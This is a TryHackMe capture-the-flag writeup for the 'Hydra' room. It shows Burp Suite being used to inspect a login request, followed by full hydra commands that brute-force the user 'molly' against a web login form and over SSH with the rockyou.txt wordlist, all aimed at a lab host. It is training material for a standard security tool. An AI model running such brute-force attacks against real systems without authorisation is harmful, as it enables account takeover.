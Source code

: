 ```yaml
---
layout: post
title:  "Hydra - TryHackMe"
date:   2020-11-27 00:30:53 +0  530
categories: [writeup, tryhackme]
category: writeup
tags:
  - bruteforce
  - hydra
  - password-cracking
---
```


[Room Link](https://tryhackme.com/room/hydra)

> Hydra has the ability to bruteforce the following protocols: Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP.

# Task 1 : Hydra Introduction

nice info

# Task 2 : Using Hydra

## Web-form

Lets open the web form

![/assets/images/posts/hydra/Untitled.png](/assets/images/posts/hydra/Untitled.png)

We will use `Burp Suite` to determine the `POST` request sent

![/assets/images/posts/hydra/Untitled%201.png](/assets/images/posts/hydra/Untitled%201.png)

This is the message we get on wrong credentials

![/assets/images/posts/hydra/Untitled%202.png](/assets/images/posts/hydra/Untitled%202.png)

So, our `hydra` command will be (I'm using rockyou.txt) :

```bash
hydra -l molly -P /usr/share/wordlists/rockyou.txt <ip>  http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."
```

![/assets/images/posts/hydra/Untitled%203.png](/assets/images/posts/hydra/Untitled%203.png)

Now use the obtained password to login into the website and get the flag.

## SSH

we use the following command

```bash
hydra -l molly -P /usr/share/wordlists/rockyou.txt <ip> -t 4 ssh
```

![/assets/images/posts/hydra/Untitled%204.png](/assets/images/posts/hydra/Untitled%204.png)

Now you can ssh into the server and obtain the flag

![/assets/images/posts/hydra/Untitled%205.png](/assets/images/posts/hydra/Untitled%205.png)